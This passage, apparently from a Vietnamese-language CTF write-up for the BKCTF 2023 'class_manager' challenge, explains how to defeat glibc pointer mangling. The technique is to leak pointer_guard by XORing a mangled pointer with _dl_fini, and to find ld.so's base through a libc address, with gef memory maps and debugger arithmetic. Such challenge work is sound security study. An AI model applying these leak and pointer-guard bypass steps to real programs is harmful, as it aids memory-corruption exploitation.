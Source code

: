 ```cpp
  void *__private_tm[4];
  /* GCC split stack support.  */
  void *__private_ss;
  /* The lowest address of shadow stack,  */
  unsigned long long int ssp_base;
  /* Must be kept even if it is no longer used by glibc since programs,
     like AddressSanitizer, depend on the size of tcbhead_t.  */
  __128bits __glibc_unused2[8][4] __attribute__ ((aligned (32)));

  void *__padding[8];
} tcbhead_t;
```

* Offset `0x30` ở đây là trỏ đến `pointer_guard`, như vậy thì để fake được `func` thì chúng ta cần phải leak được `pointer_guard`
* Chúng ta chỉ cần leak được pointer đã mã hóa rồi `xor` với hàm mà nó trỏ tới là sẽ có được `pointer_guard`
* Mặc định cái hàm nó trỏ tới ở đây sẽ là `_dl_fini`, debug chương trình sẽ thấy
* Nhưng mà hàm này lại ở trên `ld.so` như vậy cần leak được cả `ld`
* Ở trên libc mình tìm thấy có 1 chỗ chứa giá trị của `ld`

```bash
0x00007ffff7c00000 0x00007ffff7c28000 0x0000000000000000 r-- /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/libc.so.6
0x00007ffff7c28000 0x00007ffff7dbd000 0x0000000000028000 r-x /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/libc.so.6
0x00007ffff7dbd000 0x00007ffff7e15000 0x00000000001bd000 r-- /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/libc.so.6
0x00007ffff7e15000 0x00007ffff7e19000 0x0000000000214000 r-- /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/libc.so.6
0x00007ffff7e19000 0x00007ffff7e1b000 0x0000000000218000 rw- /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/libc.so.6
0x00007ffff7e1b000 0x00007ffff7e28000 0x0000000000000000 rw- 
0x00007ffff7fb8000 0x00007ffff7fbd000 0x0000000000000000 rw- 
0x00007ffff7fbd000 0x00007ffff7fc1000 0x0000000000000000 r-- [vvar]
0x00007ffff7fc1000 0x00007ffff7fc3000 0x0000000000000000 r-x [vdso]
0x00007ffff7fc3000 0x00007ffff7fc5000 0x0000000000000000 r-- /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/ld-linux-x86-64.so.2
0x00007ffff7fc5000 0x00007ffff7fef000 0x0000000000002000 r-x /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/ld-linux-x86-64.so.2
0x00007ffff7fef000 0x00007ffff7ffa000 0x000000000002c000 r-- /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/ld-linux-x86-64.so.2
0x00007ffff7ffb000 0x00007ffff7ffd000 0x0000000000037000 r-- /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/ld-linux-x86-64.so.2
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000039000 rw- /home/nao/bksec_2023/class_manager/bkctf2023-classmanager/downloadable/ld-linux-x86-64.so.2
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
gef➤  x/xg 0x00007ffff7c00000 + 0x219010
0x7ffff7e19010:	0x00007ffff7fd8d30
gef➤  p 0x00007ffff7fd8d30 - 0x00007ffff7fc3000
$1 = 0x15d30
```
